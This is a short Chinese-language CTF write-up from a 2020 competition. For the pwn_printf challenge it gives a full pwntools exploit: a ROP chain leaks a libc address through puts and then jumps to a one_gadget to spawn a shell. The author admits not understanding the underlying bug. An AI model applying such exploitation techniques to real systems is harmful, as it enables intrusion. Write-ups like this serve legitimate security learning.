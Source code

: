 ```yaml
---
title: 2020湖湘杯wp
date: 2020-11-13 17:36:17
tags: CTF
---
```


## pwn_printf  

这题属实给我吓着了，一堆字符串  
说是google ctf的原题改编而来，我还特意去b站Nep那找这题的讲解，我看得懂个锤子……  
![](1.png)  
反正看了别人wp说是输入16次0x20就能直接进入sub_4007C6函数，可以直接溢出然后ROP  
但是至今没有搞清楚原理  
后续补吧……  
### exp  

```python
#!/usr/bin/env python
#coding=utf-8
from pwn import*
import sys
context.log_level = 'debug'
context.terminal = ['terminator','-x','sh','-c']
binary = './pwn_printf' 
local = 1
if local == 1:
    p=process(binary)
else:
    p=remote("",)
elf=ELF(binary)
libc=ELF('/lib/x86_64-linux-gnu/libc.so.6')
pop_rdi_ret = 0x0000000000401213
def exp():
    p.recvuntil('interesting\n')
    for i in range(16):
        p.sendline("32")
    payload = 'a'*8+p64(pop_rdi_ret)+p64(elf.got['puts'])+p64(elf.plt['puts'])+p64(pop_rdi_ret)+p64(0x20)+p64(0x4007C6)
    p.send(payload)
    puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8,'\x00'))
    libc_base = puts_addr - 0x6f6a0
    log.success("libc_base==>" + hex(libc_base))
    one_gadget = libc_base + 0xf0364
    p.sendline('a'*8+p64(one_gadget))
    p.interactive()
exp()
```  
## blend_pwn  
咕咕咕  